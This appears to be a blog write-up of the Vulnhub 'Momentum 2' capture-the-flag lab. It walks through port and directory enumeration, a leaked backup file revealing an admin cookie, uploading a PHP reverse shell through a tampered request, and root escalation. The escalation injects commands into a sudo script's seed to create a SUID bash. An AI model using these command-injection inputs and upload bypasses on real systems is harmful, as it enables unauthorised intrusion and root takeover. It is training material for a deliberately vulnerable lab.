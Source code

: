 ```yaml
---
title: Vulnhub Momentum 2 Writeup
date: 2022-10-07 12:00:00 -0700
categories: [ctf]
tags: [hacking,writeup,web,linux] # TAG names should always be lowercase
---
```


# Momentum 2
---
Here we will be going over the Momentum 2 box from Vulnhub. This box will test your ability on enumeration, web exploitation, and Linux privilege escalation. 


## Part 1
---
Before we start. Lets add the machines IP to an environment to make things easier on us.

```shell
set IP = <box-IP>
```

Now that's done lets begin:

As with all boxes we start with our network enumeration.

```shell
nmap -sC -sV -oN nmap/initial $IP
```

Here we see we have 2 ports open:

```shell
# Nmap 7.92 scan initiated Fri Sep 23 08:36:58 2022 as: nmap -sC -sV -oN nmap/initial 172.16.42.164
Nmap scan report for 172.16.42.164
Host is up (0.00044s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 02:32:8e:5b:27:a8:ea:f2:fe:11:db:2f:57:f4:11:7e (RSA)
|   256 74:35:c8:fb:96:c1:9f:a0:dc:73:6c:cd:83:52:bf:b7 (ECDSA)
|_  256 fc:4a:70:fb:b9:7d:32:89:35:0a:45:3d:d9:8b:c5:95 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Momentum 2 | Index
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 23 08:37:05 2022 -- 1 IP address (1 host up) scanned in 6.70 seconds
```

Since we have a web port open running Apache we can begin enumeration on that URL using Gobuster. ( Ensure to specify the file extensions you are looking for otherwise you will be stuck on this point. )

```shell
gobuster dir -u http://$IP -w ~/Hack/wordlists/dirbuster/directory-list-2.3-medium.txt  -x .cgi,.txt,.php,.html,.py,.sh,.jpg,.png,.bak,.php.bak -t 100 
```

You should see output similar to this.

```shell
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.16.42.164
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /home/user/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              sh,jpg,bak,cgi,txt,php,html,py,png,php.bak
[+] Timeout:                 10s
===============================================================
2022/10/05 19:29:36 Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 312] [--> http://172.16.42.164/img/]
/index.html           (Status: 200) [Size: 1428]
/ajax.php             (Status: 200) [Size: 0]
/css                  (Status: 301) [Size: 312] [--> http://172.16.42.164/css/]
/ajax.php.bak         (Status: 200) [Size: 357]
/manual               (Status: 301) [Size: 315] [--> http://172.16.42.164/manual/]
/js                   (Status: 301) [Size: 311] [--> http://172.16.42.164/js/]
/dashboard.html       (Status: 200) [Size: 513]
/owls                 (Status: 301) [Size: 313] [--> http://172.16.42.164/owls/]
/server-status        (Status: 403) [Size: 278]

[!] Keyboard interrupt detected, terminating.
===============================================================
2022/10/05 19:31:17 Finished
===============================================================
```

We can see a few interesting files we might want to check out:
- owls
- dashboard.html
- ajax.php.bak

browsing to the first, we see a page that displays a directory tree we can access.

![[assets/images/vulnhub/momentum2/owls.png]]

Browsing to the second, we see an uploads page.

![[/assets/images/vulnhub/momentum2/dashboard.png]]

Browsing to the last, we are able to download the file.

After the download is complete we see some useful information.

```php
    //The boss told me to add one more Upper Case letter at the end of the cookie
   if(isset($_COOKIE['admin']) && $_COOKIE['admin'] == '&G6u@B6uDXMq&Ms'){

       //[+] Add if $_POST['secure'] == 'val1d'
        $valid_ext = array("pdf","php","txt");
   }
   else{

        $valid_ext = array("txt");
   }

   // Remember success upload returns 1 % 
```

Here we see that if we add the correct admin cookie and a second post parameter of secure = val1d, then we can upload .php files to the uploads page. 

To do this we can use Burpsuite to intercept the request and manipulate it to send our php reverse shell.

First lets get our PHP reverse shell from PentestMonkey and ready by adding our IP and a port we want to listen on in the fields listed in the Revshell.

Here is what needs to be added to the request as stated in the ajax.php.bak.

![[/assets/images/vulnhub/momentum2/burp1.png]]

Send the request over to intruder to find out the last digit. Add the squiggle "s" to the end of the cookie and go to payloads.

![[/assets/images/vulnhub/momentum2/request.png]]

Under payloads add uppercase letters to the list and hit start attack.

![[/assets/images/vulnhub/momentum2/burp3.png]]

You should see a "1" in the response from "R" indicating that is the letter needed. Add the letter to the end of the cookie in the proxy tab. Forward the request and the shell should go through.

Open a terminal, and open a listener on the port you put in the reverse shell. Go to the owls page and select your shell. You now have a shell on the machine!

Now that your on you can start looking for privesc routes. Being the "www" user you have basically no rights. So we need to see if their are any ways from our current user to root or another user. We see in the home directory that their is a user named "athena" and she has her password written down in a file in her directory. We use this to switch to her account. 

```shell
su athena
```

As athena we can read the user flag in her home directory.

![[/assets/images/vulnhub/momentum2/momentum-2-user-flag.png]]

Now first thing I normally do, is see if I have sudo privilege to any files or binaries.

```shell
sudo -l
```

I see that as athena we are able to run a python script as root. This script takes a seed we give it and outputs an admin cookie for the site. We can abuse this due to no input filters put in place and spawn a shell by adding this to out seed.

I tried  "bash -i" with the seed. For an example.
```shell
1;bash -i
```

It didn't quite work due to it spawning an unstable dead shell.

So I tried to add the SUID bit to bash by copying the binary to /tmp and using this in place of "/bin/bash" when running the shell.

```shell
1;cp /bin/bash /tmp/bash;chmod u+s /tmp/bash
```

Finally I can gain a root shell by using.

```shell
/tmp/bash -p
```

You now have a root shell and can retrieve the root flag.

![[/assets/images/vulnhub/momentum2/momentum-2-root-flag.png]]

This concludes the momentum series from Vulnhub! follow me on my socials for more!